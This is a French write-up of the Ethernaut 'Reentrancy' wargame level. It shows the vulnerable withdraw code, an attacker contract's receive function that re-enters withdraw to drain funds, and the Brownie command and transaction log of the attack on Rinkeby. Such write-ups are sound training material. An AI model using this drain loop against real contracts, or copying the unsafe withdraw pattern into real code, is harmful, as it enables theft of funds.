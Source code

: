 # Reentrancy

## Objectif
L'objectif de ce challenge est de récupérer tous les fonds du contrat.

## Récupération des fonds
Le nom du challenge nous donne la piste à chercher: il faut regarder sous quelle condition nous pouvons créer une boucle d'appel.

Dans la méthode [`withdraw`](contracts/reentrance.sol#2) nous voyons qu'une fois que le contrat a vérifié que [le `msg.sender` a suffisamment de fond](contracts/reentrance.sol#20), le transfert est effectué:
```
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
```

Dans le cas où `msg.sender` est un `EOA` (External Owned Account) cette façon de faire est valide mais si `msg.sender` est un contrat, sa méthode `receive` sera appellée.

Cette méthode `receive` peut appeller de nouveau `withdraw` est ainsi créer une boucle vidant les fonds:
```
    receive() external payable {
        if (address(reentrance).balance > 0) {
            reentrance.withdraw(amount);
        }
    }
```

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0x97d0Cc9f5F3cE20fDb1d7088CA0d9e8A36e6a033" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

ReentrancyProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0x749c569d58adfa004b6dd18760cb6cf31233f504912c5e29f003e140d765bcc2
  Gas price: 1.000000051 gwei   Gas limit: 256812   Nonce: 250
  ReentranceAttack.constructor confirmed   Block: 10521291   Gas used: 233466 (90.91%)
  ReentranceAttack deployed at: 0xE4D85d55b09Ad00B83a6E06A7f0465B7e59F2fdD

Transaction sent: 0x34589a2b27853c6a01b658210d1b0fc73cbeca9fedca0331b002f25498374fd5
  Gas price: 1.000000051 gwei   Gas limit: 48409   Nonce: 251
  Transaction confirmed   Block: 10521292   Gas used: 44009 (90.91%)

0
Transaction sent: 0x8aaf12d51d0e457930ddc96a14970c711194621f2e29cfa62e2ca04b95ecf1d9
  Gas price: 1.000000051 gwei   Gas limit: 600000   Nonce: 252
  ReentranceAttack.attack confirmed   Block: 10521293   Gas used: 49716 (8.29%)

2000000000000000
Transaction sent: 0x867e79c907a6785deab862fc8329f0601420dda324cadf832ac378eea6a78729
  Gas price: 1.000000051 gwei   Gas limit: 31127   Nonce: 253
  ReentranceAttack.destroy confirmed   Block: 10521294   Gas used: 28298 (90.91%)
```



